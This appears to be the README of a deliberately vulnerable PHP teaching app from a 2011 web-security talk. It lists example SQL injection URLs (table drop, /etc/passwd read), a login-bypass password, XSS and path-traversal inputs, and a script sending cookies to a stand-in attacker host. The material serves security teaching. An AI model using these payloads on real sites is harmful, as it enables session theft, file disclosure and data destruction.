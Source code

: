Credit goes to [@jadz](https://github.com/jadz/php-sploits)

This sample code was used for the SydPHP February 2011 talk on website security.

Props go out to @sydphp for hosting the talk and letting us talk. And my partner in crime @CerealBoy.

This code has been developed in such a way that it is vulnerable to the most basic and common website security exploits. It's meant to contain all the bad practices.

SQL Injection / XSS / Session Hijacking are all available through this codebase.

Note: Some of these might not work if your database user doesn't have sufficient privileges.

Steps:
------

1. Load the db.sql file to your database.
2. Change the consts.php file to contain the username and password of database user.
3. Load your site.

Examples:
---------

SQL Injection:
--------------
http://localhost/?username=jared'%20or%20'1'='1
http://localhost/?username=jared'%20or%20''='
http://localhost/index.php?id=1%20or%201=1
http://localhost/?id=1;drop%20table%20invoices -- doesn't work because mysql_query stacked query support -- but will work with other dbs
http://localhost/index.php?username='%20UNION%20SELECT%201,1,1,1,LOAD_FILE('/etc/passwd'),'1
http://localhost/index.php?username='%20UNION%20SELECT%201,2,3,4,5,'hello%20world


Bypass Login:

Password: foo' or '1'='1

XSS:
----
http://localhost/index.php?username=jared%3Cscript%3Ealert('Hi%20there!')%3C/script%3E
http://localhost/template?load=php://filter/convert.base64-encode/resource=loadme

Use XSS to hijack a users session:
----------------------------------
On the 'Send message' page:

Hey just wanted to say that you guys rock!
```js
<script>
new Image().src="http://somereallybadsite.tld/?c="+encodeURI(document.cookie);
</script>
```

XSS to read files on disk:
--------------------------
http://localhost/template.php?load=../../../../etc/passwd%00

